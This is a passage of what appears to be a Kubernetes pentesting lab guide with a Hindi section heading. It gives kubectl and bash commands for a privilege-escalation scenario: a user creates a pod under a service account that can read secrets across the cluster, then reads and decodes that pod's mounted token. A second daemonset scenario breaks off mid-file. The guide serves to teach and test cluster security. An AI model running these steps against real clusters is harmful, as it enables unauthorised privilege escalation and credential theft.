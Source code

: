 ```bash
name: test-crb
subjects:
- kind: ServiceAccount
namespace: default
name: test-sa
apiGroup: ""
roleRef:
kind: ClusterRole
name: test-cr
apiGroup: rbac.authorization.k8s.io' | kubectl apply -f -

# Check test-sa can access kube-system secrets
kubectl --as system:serviceaccount:default:test-sa -n kube-system get secrets

# Check user User can get pods in namespace default
kubectl --as Test -n default get pods

# Create a pod as user Test with the SA test-sa (privesc step)
echo "apiVersion: v1
kind: Pod
metadata:
name: test-pod
namespace: default
spec:
containers:
- name: alpine
image: alpine
command: ['/bin/sh']
args: ['-c', 'sleep 100000']
serviceAccountName: test-sa
automountServiceAccountToken: true
hostNetwork: true"| kubectl --as Test apply -f -

# Connect to the pod created an confirm the attached SA token belongs to test-sa
kubectl exec -ti -n default test-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/token | cut -d "." -f2 | base64 -d

# Clean the scenario
kubectl delete pod test-pod
kubectl delete clusterrolebinding test-crb
kubectl delete clusterrole test-cr
kubectl delete rolebinding test-rb
kubectl delete role test-r
kubectl delete serviceaccount test-sa
```
## डेमनसेट बनाएं
```bash
# Create Service Account test-sa
# Create role and rolebinding to give list & create permissions over daemonsets in default namespace to user Test
# Create clusterrole and clusterrolebinding to give the SA test-sa access to secrets everywhere

echo 'apiVersion: v1
kind: ServiceAccount
metadata:
name: test-sa
---
kind: Role
apiVersion: rbac.authorization.k8s.io/v1
metadata:
name: test-r
rules:
```